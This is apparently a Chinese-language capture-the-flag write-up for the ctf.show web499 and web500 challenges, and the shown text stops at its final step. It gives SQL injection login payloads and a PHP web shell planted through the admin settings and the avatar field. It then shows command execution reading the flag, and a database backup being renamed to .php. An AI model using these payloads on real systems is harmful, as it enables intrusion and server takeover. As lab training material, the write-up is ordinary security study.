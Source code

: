 # web499

第一步

```
http://68fa2d97-f636-4bc8-896d-7b3924312c21.challenge.ctf.show:8080/index.php?action=check

username=1' union select group_concat(username),group_concat(nickname),group_concat(avatar) from user%23
```

第二步：

```
http://3a8e6454-e285-4137-95be-52a9377d49a8.challenge.ctf.show:8080/index.php?action=view&page=admin_settings
修改任意一项为<?php system($_GET[1]);?>
```

第三步：

```
http://3a8e6454-e285-4137-95be-52a9377d49a8.challenge.ctf.show:8080/config/settings.php?1=cat%20%20/flag_bei_ni_fa_xian_le
```

# web500

首先老规矩登录

```
http://d637394f-6b04-420b-9152-c25ea72db54a.challenge.ctf.show:8080/index.php?action=check

username=1' union select group_concat(username),group_concat(nickname),group_concat(avatar) from user%23
```

多了个数据库备份功能，看到备份能想到的 要么是目录穿越读任意文件 要么就是后缀可控 能改个参数实现phpshell

刚好审计个人配置信息那里，发现个人头像的地址参数是不限制长度插入数据库的因此插入

头像地址改为

```
<?php system($_GET[1]);?>
```

之后访问

```
http://d637394f-6b04-420b-9152-c25ea72db54a.challenge.ctf.show:8080/index.php?action=view&page=admin_db_backup
```

点击备份，把名字改为1.php

最后
